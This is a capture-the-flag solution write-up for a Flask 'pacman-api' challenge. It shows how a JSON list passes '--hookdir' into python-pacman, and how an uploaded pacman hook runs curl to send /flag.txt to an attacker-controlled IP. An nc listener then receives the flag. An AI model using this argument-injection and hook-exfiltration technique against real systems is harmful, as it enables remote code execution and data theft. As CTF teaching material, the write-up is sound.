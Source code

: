 # spoiler: this is the solution

The problem was a parameter injection vulnerabilty in the python-pacman module [(before it got patched by #1)](https://github.com/peakwinter/python-pacman/pull/1)

That's the `install` function to install a package with pacman ([source](https://github.com/peakwinter/python-pacman/blob/1320f51058780d7654360831aa11a33c53989edc/pacman.py#L9)):  
```python
def install(packages, needed=True):
    # Install package(s)
    s = pacman("-S", packages, ["--needed" if needed else None])
    if s["code"] != 0:
        raise Exception("Failed to install: {0}".format(s["stderr"]))
```

The called `pacman` function looks like ([source](https://github.com/peakwinter/python-pacman/blob/1320f51058780d7654360831aa11a33c53989edc/pacman.py#L174)):
```python
def pacman(flags, pkgs=[], eflgs=[]):
    # Subprocess wrapper, get all data
    if not pkgs:
        cmd = ["pacman", "--noconfirm", flags]
    elif type(pkgs) == list:
        cmd = ["pacman", "--noconfirm", flags]
        cmd += pkgs
    else:
        cmd = ["pacman", "--noconfirm", flags, pkgs]
    if eflgs and any(eflgs):
        eflgs = [x for x in eflgs if x]
        cmd += eflgs
    p = subprocess.Popen(cmd, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
    data = p.communicate()
    data = {"code": p.returncode, "stdout": data[0].decode(),
            "stderr": data[1].rstrip(b'\n').decode()}
    return data
```

Our application uses it the following way:

```python
@app.route("/install", methods=['GET', 'POST'])
@check_json('package')
def install():
    package = request.get_json(force=True)['package']
    pacman.install(package)
    return jsonify({'status': 'OK'})
```

As we use json we can send `package` as a list instead of a string. This will allow us to inject something in the `subprocess.Popen` call. It does not allow us to injection arbitrary commands. But it allow us to inject some parameters. `pacman` allows us to run hooks after/before installing a package. This is how we will get code exection. Therefore, we need to upload a file to the server. Therefore we can exploit the `/check` api backend with a little trick.

```python
@app.route("/check", methods=['GET', 'POST'])
@check_json('name', 'content')
def checksum():
    f_name = request.get_json(force=True)['name']
    f_content = request.get_json(force=True)['content']
    with open(tmp_dir + f_name.replace("..", ""), "wb") as f:
        f.write(b64decode(f_content.encode()))
    stdout = check_output("/usr/bin/namcap -e checksums,filenames {}{}".format(tmp_dir, quote(f_name)), shell=True)
    remove(tmp_dir + f_name.replace("..", ""))
    return jsonify({'output': stdout.decode()})
```

1) Upload a file
    - call /check with the following parameters:
        - name: -d.hook
        - content:
            ```
            [Trigger]
            Operation = Upgrade
            Operation = Install
            Operation = Remove
            Type = Package
            Target = *

            [Action]
            Description = Cleaning pacman cache...
            When = PostTransaction
            Exec = /bin/bash -c "curl --upload-file /flag.txt http://192.168.10.70:5001"
            ```  
    - What will happen is:
        - our pacman hook will be uploaded to '/tmp/pacman/-d.hook'
        - `/usr/bin/namcap -e checksums,filenames /tmp/pacman/-d.hook` will be executed and fails because it sees a `-d` (parses it as option)
        - the python call `check_output` will throw an exception an exception because `/usr/bin/namcap` exited with a non-zero value
    - the call to /check will give you a 500. But the file stays on the server
2) Install a package and get code execution using a pacman hook with our uploaded file
    - call the `/install` endpoint with the following parameter `package`
        - package: ["--hookdir", "/tmp/pacman/", "wget"]
    - this will install the package wget
    - `pacman` will use /tmp/pacman as hookdir (only files ending with .hook are used)
    - WIN.



## exploit.py
```bash
kmille@linbox pacman-api master % python exploit.py
Testing /info
info works
Testing /install
install works
Testing /remove
remove works
Testing /install
install works
Testing /check
check works
Uploaded hook
Let's get code execution
Testing /remove
remove works
```

```bash
kmille@linbox pacman-api master % nc -lvp 5001
Listening on license.sublimehq.com 5001
Connection received on 172.19.0.2 56558
PUT /flag.txt HTTP/1.1
Host: 192.168.10.70:5001
User-Agent: curl/7.69.1
Accept: */*
Content-Length: 20
Expect: 100-continue

MRMCD{4rch 15 b357}

```
